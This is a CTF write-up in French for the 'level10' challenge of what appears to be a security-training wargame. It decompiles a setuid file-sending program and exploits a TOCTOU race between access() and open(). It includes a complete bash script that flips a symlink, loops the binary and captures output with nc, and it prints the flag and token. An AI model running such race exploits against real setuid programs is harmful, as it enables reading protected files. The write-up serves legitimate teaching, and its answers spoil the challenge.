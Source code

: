 # level10

### Observations:

##### Je decompile le programme accessible dans le dossier utilisateur:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	int				*v3;
	char			*v4;
	const char		*v6;
	const char		*v7;
	int				v8;
	int				v9;
	size_t			v10;
	char			buf[4096];
	struct sockaddr	addr;
	unsigned int	v13;

	v13 = __readgsdword(0x14u);
	if ( argc <= 2 )
	{
		printf("%s file host\n\tsends file to host if you have access to it\n", *argv);
		exit(1);
	}
	v6 = argv[1];
	v7 = argv[2];
	if ( access(v6, 4) )
		return printf("You don't have access to %s\n", v6);
	printf("Connecting to %s:6969 .. ", v7);
	fflush(stdout);
	v8 = socket(2, 1, 0);
	*(_DWORD *)&addr.sa_data[6] = 0;
	*(_DWORD *)&addr.sa_data[10] = 0;
	addr.sa_family = 2;
	*(_DWORD *)&addr.sa_data[2] = inet_addr(v7);
	*(_WORD *)addr.sa_data = htons(0x1B39u);
	if ( connect(v8, &addr, 0x10u) == -1 )
	{
		printf("Unable to connect to host %s\n", v7);
		exit(1);
	}
	if ( write(v8, ".*( )*.\n", 8u) == -1 )
	{
		printf("Unable to write banner to host %s\n", v7);
		exit(1);
	}
	printf("Connected!\nSending file .. ");
	fflush(stdout);
	v9 = open(v6, 0);
	if ( v9 == -1 )
	{
		puts("Damn. Unable to open file");
		exit(1);
	}
	v10 = read(v9, buf, 0x1000u);
	if ( v10 == -1 )
	{
		v3 = __errno_location();
		v4 = strerror(*v3);
		printf("Unable to read from file: %s\n", v4);
		exit(1);
	}
	write(v8, buf, v10);
	return puts("wrote file!");
}
```

##### Entrees du programme
```c
char *chemin_fichier
char *addresse_ip
```

##### Fonctionnement
Le programme verifie si le chemin_fichier est accessible par l'utilisateur a l'aide de la fonction access. \
Puis se connecte a un serveur avec addresse_ip pour par la suite ouvrir le fichier avec la fonction open.

> Le serveur est heberge sur l'addresse ip '127.0.0.1' avec le port '6969'

##### Conclusions
L'ordre d'execution des fonctions cree une faille qui nous permet de 
modifier le fichier pointant a la fin du chemin_fichier pendant la connection.
Cette operation leurre la fonction open sur le fait que nous avons les \
droits sur ce fichier du au fait que la fonction access retient les drois d'ouverture.

### Resolution:
Je cree un script qui effectue trois operations distinctes en parallele.

La premiere consiste en une boucle qui cree un lien symbolique vers un fichier accessible par l'utilisateur \
pour ensuite le modifier pour pointer vers le fichier ou le token est stocke dans la racine HOME.

La seconde est composee d'une boucle qui execute le programme '~/level10' tout en pointant sur le lien symbolique cree et modifie par la boucle de l'operation precedente.

La derniere est une simple boucle qui recupere les donnees circulant sur le port reseau 6969 et affiche le resultat quand ce n'est pas le contenu du fichier accessible (soit l'executable '~/level10').

Il ne me reste plus qu'a lui donner les droits d'execution et de l'executer pour avoir mon flag.


##### /tmp/script.sh :
```bash
#! /bin/bash

rm -rf /tmp/done

link_breaker()
{
	while [ ! -f "/tmp/done" ];
	do
		ln -nsf /home/user/level10/level10 /tmp/link
		ln -nsf /home/user/level10/token /tmp/link
	done
}

listen_to_serv()
{
	while [ ! -f "/tmp/done" ];
	do
		TOK="$(nc -ln 6969)"
		[[ "$TOK" !=  *ELF* ]] && echo "$TOK" && touch /tmp/done
	done
}

exec_loop()
{
	while [ ! -f "/tmp/done" ];
	do
		/home/user/level10/level10 /tmp/link "127.0.0.1" >/dev/null
	done
}

exec_loop&
listen_to_serv&
link_breaker&

wait

```

#### commandes:
```bash
chmod +x /tmp/script.sh
/tmp/script.sh
```

**flag :** woupa2yuojeeaaed06riuj63c
	
**token :** feulo4b72j7edeahuete3no7c

